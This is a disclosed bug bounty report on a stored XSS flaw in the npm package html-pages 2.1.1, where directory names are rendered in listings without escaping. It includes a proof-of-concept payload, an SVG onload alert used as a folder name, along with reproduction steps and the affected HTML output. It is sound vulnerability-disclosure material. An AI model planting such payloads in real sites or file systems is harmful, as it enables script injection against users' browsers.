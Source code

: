 # [html-pages] Stored XSS in the filename when directories listing

## Report Details
- **Report ID**: 330356
- **URL**: https://hackerone.com/reports/330356
- **State**: Closed
- **Severity**: high
- **Submitted**: 2018-03-27T13:52:58.486Z
- **Disclosed**: 2018-06-12T08:04:51.222Z

## Reporter
- **Username**: tungpun
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
I would like to report a Store XSS vulnerability in **html-pages**
It allows executing malicious javascript code in the user's browser.

# Module

**module name:** html-pages
**version:** 2.1.1
**npm page:** `https://www.npmjs.com/package/html-pages`

## Module Description

Simple development http server for file serving and directory listing made by a Designer. Use it for hacking your HTML/JavaScript/CSS files, but not for deploying your final site. 

# Vulnerability

## Steps To Reproduce:

* Install the module:
`$ npm install html-pages`

* On the working directory, create a new child directory with name: `"><svg onload=alert(5);>`

* Start the server:
`$ ./node_modules/html-pages/bin/index.js -p 6060`

* Go to `http://127.0.0.1:6060/`, then click on the directory `"><svg onload=alert(5);>`
or open `http://127.0.0.1:6060/%22%3E%3Csvg%20onload=alert(5);%3E/` directly, the XSS popup will fire:

{F279119}

## Vulnerability Description

This issue happens because of the lack of path sanitization.

HTML output:
```
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="utf-8">
    <meta http-equiv="x-ua-compatible" content="ie=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0, maximum-scale=1.0, user-scalable=no" />
    <title>Files within nodejs-example/"><svg onload=alert(5);></title>
    <meta name="description" content="">
    <link rel="stylesheet" href="/@html-pages-internal-files-hoihj6ey0qu/css/style.css">
    <link rel="stylesheet" href="/@html-pages-internal-files-hoihj6ey0qu/css/component.css">
    <link rel="stylesheet" href="/@html-pages-internal-files-hoihj6ey0qu/css/loader.css">
    <link rel="icon" type="image/svg+xml" href="/@html-pages-internal-files-hoihj6ey0qu/images/logo.svg">
  </head>

  <body>
    <header>
      <div class="wrapper">
        <nav>
          <ol class="breadcrumb custom-separator">
              <li class="">
                <a class="background-effect" href="/">nodejs-example</a>
              </li>
              <li class="current">
                <span>"><svg onload=alert(5);></span>
              </li>
          </ol>
        </nav>

[...]

```

## Supporting Material/References:

* macOS High Sierra 10.13.3
* node v8.10.0
* npm 5.6.0
* Firefox 59.0.2 (64-bit)

# Wrap up

- I contacted the maintainer to let them know: N
- I opened an issue in the related repository: N

## Impact

It allows executing malicious javascript code in the user's browser

## Attachments
- hp.png
